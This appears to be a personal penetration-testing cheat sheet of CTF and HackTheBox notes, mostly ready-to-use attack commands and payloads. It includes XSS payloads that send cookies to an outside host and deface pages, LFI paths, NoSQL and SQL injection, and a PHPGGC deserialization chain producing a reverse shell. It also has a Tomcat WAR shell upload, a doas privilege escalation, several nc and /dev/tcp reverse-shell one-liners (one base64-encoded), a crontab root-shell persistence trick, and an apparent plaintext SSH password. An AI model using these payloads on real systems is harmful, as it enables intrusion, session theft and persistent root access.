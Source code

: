 #XSS
<script>alert("Xss");</script>
"><script>alert("Xss");</script>
; alert("XSS")
onmouseover="alert(document.domain)"
">"<img src="x" onerror='javascript:alert("XSS");'>
<img src="x" onerror='javascript:alert("XSS");'>
<img src=x onerror="fetch('[HOST]' + document.cookie)" />
javascript:alert("xss")
src="x" onerror='javascript:alert("XSS")
<iframe src="javascript:alert(`xss`)">
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
Steal Cookie:

<script>var i=new Image(); i.src="http://192.168.1.103/?cookie="+btoa(document.cookie);</script>

defacemant:
<script>document.documentElement.innerHTML="<style>h1{align: ceneter;}</style><html><h1>Hacked by s1l3ntmask</h1>What do you think of me now?</html>"</script>

#LFI
../admin.php
..//admin.php
file/../../admin.php
/export/../../../../../../../etc/passwd

#VulnFiles
/.git
/metrics
/assets (may be vuln to lfi)
#API Manipulation
curl -X POST https://48zywdcy.eu1.ctfio.com/api/v1/auth/new -i
curl -X POST https://48zywdcy.eu1.ctfio.com/api/v1/auth/new -i -d "username=masking&email=alex@gmail.com&password=password&password2=password"
curl -X POST https://48zywdcy.eu1.ctfio.com/api/v1/users/verify -i -d "user_id=c1fd4b1f-47bd-4521bb5a-5ef1173c7c42&verification_token=b94f1f124023cda54b81fe7f1f658faa"
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2Fuser.txt" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
#Deserialization
href=/home/anonymous/PTS/PWNX/Begginers Hub/Deserialization1
Generating ad-hoc serialized object to exploit the deserialization vulnerability. This exploit points to reach the file write logic in the php class deconstructor by injecting the serialized object with the $writeLog variable set to true, and using as username or password some malicious code that allow an attacker to read the flag.
Here we are executing the exploit to generate the malicious serialized object. The object is then base64Url encoded and sanitized by removing the equal and substituting the /+ characters with -_. using the tr command.
Making a request with the serialized object the application should write a file in the webroot with the content of the username and password.
Since the application gives us multiple ways to exploit the deserialization vulnerability. An attacker can try to exploit the issue by using the gadgets installed on the application. On the vulnerable target is possible to have a list of the installed gadgets via the file composer.json .
To exploit with the gadget chains we need to use a tool called PHPGGC (https://github.com/ambionics/phpggc). By typing ./phpggc -l we have a list of all available gadgets.
For this example we can use the gadget Monolog/RCE3. This time in order to read the flag an attacker needs to obtain a reverse or bind shell on the system. To achieve 
this we need to generate the Monolog Function call serialized object.

./phpggc Monolog/RCE3 system '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.80.1.150/9002 0>&1"' | base64 -w 0 | tr -d  '=' | tr '/+' '-_'

Here we are generating the object and then encoding as we did with the "Custom class exploit". Once the malicious object is generated an attacker needs to start a listener on the port chosen during the object generation, and then make a request to the vulnerable application with the malicious object. At this point an attacker should obtain a reverse shell that allows him to execute commands on the system and read the flag.

#CMS 
tomcat can be saved as:
/opt/tomcat/
/opt/tomcat/logs/catalina.out
/opt/tomcat/conf/tomcat-users.xml
curl -u tomcat:REDACTED --upload-file shell.war "http://backtrack.thm:8080/manager/text/deploy?path=/shell&update=true"

#NoSQL Injection
username=admin' || 'a'=='a&password=admin
'; return '' == '
#Citrix
#Banner
nmap --script=banner
nc ip port
curl -IL host
#SMB
smbclient -U bob \\\\10.129.42.253\\users
#SNMP
snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0
snmpwalk -v 2c -c private  10.129.42.253 
onesixtyone -c dict.txt 10.129.42.254
#MYSQL won't work
mysql -h db -u root -proot cacti -e 'show tables;'
#Bypass antivirus
Evasion in msfconsole
#Payloads
Adapters: An adapter wraps single payloads to convert them into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.
    
Singles: Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.
    
Stagers: Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.
    
Stages: Downloaded by the stager. This will allow you to use larger sized payloads.
#MSF
show paylaods
info
search type:auxiliary telnet
background
back
unset all / unset thing
#SSTI
 ${7*7}
 #{7*7}
 *{7*7}:
       error:
             {{7*7}}:
                     error:
                           No Vuln
             works:
                  {{7*'7'}}:
                            error:
                                  Unknown
                            works: 
                                  Twig
                                  Jinja2
      works:
            a{*comment*}b:
                          works: 
                                Smarty
                          error:
                                ${"z".join("ab")}:
                                                  error:
                                                         Unknown
                                                  works: 
                                                        Mako
                                                        
Bypass unload SSTI:
0%A

#SQLI
PRAGMA table_info(customers);
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
#DOAS
cat /usr/local/etc/doas.conf
Got: permit nopass player as root cmd /usr/bin/dstat
man dstat
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
doas /usr/bin/dstat --list
doas /usr/bin/dstat --pwn
#Revshell
Java:

echo -n "bash -i >& /dev/tcp/10.10.14.18/9002 0>&1" | base64

spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC85MDAyIDA+JjE=}|{base64,-d}|{bash,-i}")

Linux:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 9002 >/tmp/f
/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.7/9002 0>&1\'
mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc <IP> 443 1>/tmp/backpipe
#SSH
sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
#PGP
use gpg john
#DNS
dig axfr friendzone.red @10.10.10.123
#Module Hijacking
Find a writeable file:

/usr/lib/python2.7/os.py

shell = '''
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 9010 >/tmp/f 
'''
f = open('/etc/crontab', 'a')
f.write(shell)
f.close()


